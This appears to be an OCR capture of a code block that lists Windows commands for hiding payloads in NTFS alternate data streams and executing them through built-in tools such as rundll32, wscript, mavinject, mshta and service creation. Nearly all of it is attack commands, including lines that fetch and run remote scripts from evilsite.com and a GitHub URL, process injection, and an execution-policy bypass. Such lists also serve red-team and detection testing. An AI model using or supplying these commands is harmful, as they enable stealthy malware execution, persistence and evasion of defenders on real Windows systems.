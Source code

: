 ```
expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat
esentutl.exe /y C:\ADS\autoruns.exe /d c:\ADS\file.txt:autoruns.exe /o
powershell -command " & {(Get-Content C:\ADS\file.exe -Raw | Set-Content C:\ADS\file.txt -Stream file.exe)}"
curl file://c:/temp/autoruns.exe --output c:\temp\textfile1.txt:auto.exe
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://evilsite.com/RegSvr32.sct   ^scrobj.dll > fakefile.doc:reg32.bat

###Extract content from ADS###
expand c:\ads\file.txt:test.exe c:\temp\evil.exe
esentutl.exe /Y C:\temp\file.txt:test.exe /d c:\temp\evil.exe /o

###Executing the ADS content###

* WMIC
wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'

* Rundll32
rundll32 "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:ADSDLL.dll",DllMain
rundll32.exe advpack.dll,RegisterOCX not_a_dll.txt:test.dll
rundll32.exe ieadvpack.dll,RegisterOCX not_a_dll.txt:test.dll

* Cscript
cscript "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Script.vbs"

* Wscript
wscript c:\ads\file.txt:script.vbs
echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js

* Forfiles
forfiles /p c:\windows\system32 /m notepad.exe /c "c:\temp\shellloader.dll:bginfo.exe"

* Mavinject.exe
c:\windows\SysWOW64\notepad.exe
tasklist | findstr notepad
notepad.exe                   4172 31C5CE94259D4006           2     18,476 K
type c:\temp\AtomicTest.dll > "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"
c:\windows\WinSxS\wow64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.16299.15_none_e07aa28c97ebfa48\mavinject.exe 4172 /INJECTRUNNING "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"

* MSHTA
mshta "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:helloworld.hta"
(Does not work on Windows 10 1903 and newer)

* Control.exe
control.exe c:\windows\tasks\zzz:notepad_reflective_x64.dll
https://twitter.com/bohops/status/954466315913310209

* Create service and run
sc create evilservice binPath= "\"c:\ADS\file.txt:cmd.exe\" /c echo works > \"c:\ADS\works.txt\"" DisplayName= "evilservice" start= auto
sc start evilservice
https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/

* Powershell.exe
powershell -ep bypass - < c:\temp:ttt

* Powershell.exe
powershell -command " & {(Get-Content C:\ADS\1.txt -Stream file.exe -Raw | Set-Content c:\ADS\file.exe) | start-process c:\ADS\file.exe}"
```